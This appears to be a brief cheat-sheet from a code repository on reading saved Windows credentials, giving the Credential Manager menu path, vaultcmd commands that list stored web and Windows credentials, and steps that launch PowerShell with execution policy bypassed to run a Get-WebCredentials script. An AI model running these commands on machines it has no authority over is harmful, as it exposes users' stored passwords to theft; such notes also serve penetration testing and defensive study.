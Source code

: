 # GUI

### Control Panel -> User accounts -> Credential Manager

# CMD

#### 1) vaultcmd /list

#### 2) vaultcmd /listproperties:"Web Credentials" or "Windows Credentials"

#### 3) vaultcmd /listcreds:"Web Credentials or "Windows Credentials"

#### 4) Powershell.exe -ex bypass

#### 5) Import-Module c:\tools\Get-WebCredentials.ps1

#### 6) Get-WebCredentials.ps1
